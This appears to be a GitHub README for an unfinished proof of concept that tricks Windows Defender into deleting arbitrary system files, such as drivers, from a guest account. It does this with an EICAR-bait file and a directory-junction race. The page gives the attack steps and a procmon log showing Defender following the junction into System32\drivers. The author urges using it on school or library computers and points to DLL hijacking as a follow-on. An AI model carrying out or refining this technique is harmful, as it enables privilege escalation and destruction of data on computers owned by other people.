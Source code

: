 (This potentially works from a guest ACC, if you just want to gain arbitrary delete to bypass UAC, there are much easier ways!)

NOTE: THIS POC IS INCOMPLETE, THERE IS STILL A TIMING ISSUE TO BE FIXED

The purpose of this PoC is to gain arbitrary deletion rights as system (basically make windows defender delete whatever we want).
This would work from a guest account (meaning you could delete drivers on school/library computers! :D).

Furthermore, deleting arbitrary dlls can lead to hijacking issues, or files in windows\temp and programdata, which can then be recreated by the user the potentially hijack control flow of critical programs.


Current steps in the PoC:

1. Create a file called 3ware.sys (driver we are targeting) in a folder called eicar on the desktop. The content of our file is an EICAR test string.
2. Wait 5 seconds, delete our fake 3ware.sys file, and turn our folder into a junction to c:\windows\system32\drivers32

In procmon (filter on 3ware.sys), you can clearly see that defender is unaware that the file has been deleted and its folder turned into a junction.
It begins checking the actual driver!

You should be able to delete the real driver, if you time the switch right before it tries to delete our fake file with eicar string.
The problem with switching too early is that it will read the real driver, and since its obviously not a virus, it won't try to delete it.

Normally you would use an OPLOCK to get the timing right, but since defender already places an OPLOCK on our file, we can't use that for timing. You need to figure out something else!

Example output in procmon:


```
7:59:52.6718391 AM	MsMpEng.exe	2124	FileSystemControl	C:\Users\guest1\Desktop\eicar\3ware.sys	OPLOCK HANDLE CLOSED	Control: FSCTL_REQUEST_OPLOCK
7:59:52.6719846 AM	MsMpEng.exe	2124	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Data/List Directory, Read Attributes, Synchronize, Disposition: Open, Options: Synchronous IO Non-Alert, Non-Directory File, Complete If Oplocked, Attributes: N, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:52.6720228 AM	MsMpEng.exe	2124	ReadFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Offset: 0, Length: 68, Priority: Normal
7:59:52.6720763 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:52.6720932 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1107248 AM	lpe.exe	6684	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Attributes, Delete, Disposition: Open, Options: Non-Directory File, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:56.1108337 AM	lpe.exe	6684	QueryAttributeTagFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Attributes: A, ReparseTag: 0x0
7:59:56.1108719 AM	lpe.exe	6684	SetDispositionInformationFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Delete: True
7:59:56.1108934 AM	lpe.exe	6684	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1128859 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1130086 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
7:59:56.1132937 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1136595 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

You can clearly see the switch to our real driver :) (I had already deleted 3ware.sys with another PoC, which is why it says not found, can't be bothered to set-up a clean vm!)

ps: If anyone did read my blogpost yesterday, my memory is pretty bad, I made a wrong assumption in there, defender does not open junctions if you have a program write into a junction. My bad! But this also works ;).
